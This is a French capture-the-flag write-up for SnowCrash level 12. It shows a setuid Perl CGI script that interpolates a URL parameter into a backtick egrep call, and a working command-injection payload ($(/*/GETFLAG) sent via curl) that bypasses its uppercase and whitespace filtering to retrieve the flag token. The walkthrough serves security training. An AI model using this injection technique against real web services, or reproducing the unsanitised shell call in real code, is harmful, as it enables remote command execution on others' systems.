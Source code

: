 ```bash
level12@SnowCrash:~$ find / -group level12 2>/dev/null | grep -v '/proc'
/var/www/level12
/var/www/level12/level12.pl
/rofs/var/www/level12
/rofs/var/www/level12/level12.pl
level12@SnowCrash:~$ find / -user flag12 2>/dev/null | grep -v '/proc'
/var/www/level12
/var/www/level12/level12.pl
/rofs/var/www/level12
/rofs/var/www/level12/level12.pl
```

```bash
level12@SnowCrash:~$ ll
[...]
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*
[...]
```

The file `level12.pl`

```pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

- `$xx =~ tr/a-z/A-Z/;` remplace toutes les minuscules de x en majuscule.
- `$xx =~ s/\s.*//;` supprime tout ce qui est whitespace
- `@output = ...` execute la command egrep

Step:
- Lors de l'execution de egrep nous pouvons executer un sous shell avec un injection.
- On a donc besoin d'executer quelque chose ayant aucun whitespace et aucune minuscule dans son path.
- PB: On a acces seulement a /tmp en ecriture.
  - Pour resoudre se probleme nous allons utiliser le wildcard du shell `/*/GETFLAG`

```bash
echo 'getflag > /tmp/flag' > /tmp/GETFLAG
chmod a+x /tmp/GETFLAG
curl 'localhost:4646?x=$(/*/GETFLAG)' &>/dev/null
cat /tmp/flag

level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
